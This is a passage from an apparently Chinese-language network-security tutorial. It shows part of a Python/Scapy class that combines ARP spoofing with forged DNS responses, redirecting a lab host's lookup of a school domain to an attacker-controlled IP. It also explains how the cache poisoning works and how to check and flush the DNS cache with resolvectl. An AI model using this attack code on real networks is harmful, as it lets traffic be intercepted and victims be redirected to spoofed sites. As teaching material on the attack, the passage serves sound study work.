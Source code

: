 ```py
                UDP(dport=pkg[UDP].sport) / \
                DNS(
                    id = pkg[DNS].id, 
                    qr = 1,
                    qd = pkg[DNS].qd.copy(), 
                    an = DNSRR(rrname=self.hijack_domain, type='A', ttl=600, rdata=self.hijack_ip)
                )
            self._mitm2target0(dns_resp_pkg)
            print('Send DNS fake response')
            return []
        return [pkg]

    def mitm2target0(self, pkg):
        return [pkg]

mitm = ARP_Spoofing_DNS_Hijack('10.211.55.5', '10.211.55.1', 'highschool.kh.edu.tw', '10.211.55.6')
mitm.start()

input()
```

首先因為 `10.211.55.1` 是 `10.211.55.5` 的 default gateway，所以只要非區域網路內的通訊都會經過 `10.211.55.1`。而 `ARP_Spoofing_DNS_Hijack` 做的事情就是當 `10.211.55.5` 想要訪問 `highschool.kh.edu.tw` 的時候會先送一個 DNS query 詢問 domain 的 IP，然後 `ARP_Spoofing_DNS_Hijack` 就會攔截這個封包，然後構造一個假的 `DNS response` 用 

```py
self._mitm2target0(dns_resp_pkg)
```

直接回給 `10.211.55.5`，這樣 `10.211.55.5` 就會認為 `highschool.kh.edu.tw` 的 IP 是 `10.211.55.6`，從而 DNS 的 cache 就被我們 hijack 了

另外可以用

```shell
resolvectl query [domain]
```

去查看 `domain` 對應的 IP（如果目前電腦的 DNS cache 沒有 `domain` 對應的紀錄，那 `resolvectl` 就會自動發 DNS query 去問）

然後可以用

```shell
resolvectl flush-caches
```

來清理 DNS cache
